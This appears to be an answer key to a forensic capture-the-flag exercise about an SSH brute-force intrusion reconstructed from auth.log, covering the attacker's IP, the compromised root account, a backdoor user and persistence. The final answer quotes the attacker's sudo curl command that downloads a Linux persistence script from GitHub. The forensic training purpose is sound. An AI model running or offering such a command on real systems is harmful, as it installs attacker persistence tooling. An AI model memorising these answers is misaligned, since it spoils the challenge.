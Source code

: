 1.  Analyzing the auth.log, can you identify the IP address used by the
    attacker to carry out a brute force attack?

    65.2.161.68

2.  The brute force attempts were successful, and the attacker gained
    access to an account on the server. What is the username of this
    account?

    root

3.  Can you identify the timestamp when the attacker manually logged in
    to the server to carry out their objectives?

    2024-03-06 06:32:45

4.  SSH login sessions are tracked and assigned a session number upon
    login. What is the session number assigned to the attacker's session
    for the user account from Question 2?

    37

5.  The attacker added a new user as part of their persistence strategy
    on the server and gave this new user account higher privileges. What
    is the name of this account?

    cyberjunkie

6.  What is the MITRE ATT&CK sub-technique ID used for persistence?

    T1136.001

7.  How long did the attacker's first SSH session last based on the
    previously confirmed authentication time and session ending within
    the auth.log? (seconds)

    279

8.  The attacker logged into their backdoor account and utilized their
    higher privileges to download a script. What is the full command
    executed using sudo?

    /usr/bin/curl
    https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh





